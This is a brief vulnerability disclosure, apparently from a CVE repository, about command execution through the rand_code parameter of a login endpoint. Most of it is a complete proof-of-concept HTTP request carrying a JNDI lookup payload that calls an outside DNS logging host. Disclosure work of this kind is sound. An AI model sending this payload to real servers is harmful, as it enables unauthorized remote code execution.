 There is a command execution vulnerability in the front-end login
Can be achieved through rand_ Code parameter for code execution


```
POST /ms/checkLogin.do HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 106
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="100"
Pragma: no-cache
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8088
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8088/ms/login.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pageno_cookie=1; JSESSIONID=BD34D601FC3933412466B54942B5EBEA
Connection: close
Accept: 1
User-Agent: 2
X-Client-IP: 3

managerName=msopen&managerPassword=123456&rememberMe=false&rand_code=${jndi:dns://xxxx.wputvy.dnslog.cn/t}
```
![图片](https://github.com/tanalala/CVE/assets/87268585/6e33165a-d46a-47a8-8a62-cc9a2b7cdcc6)

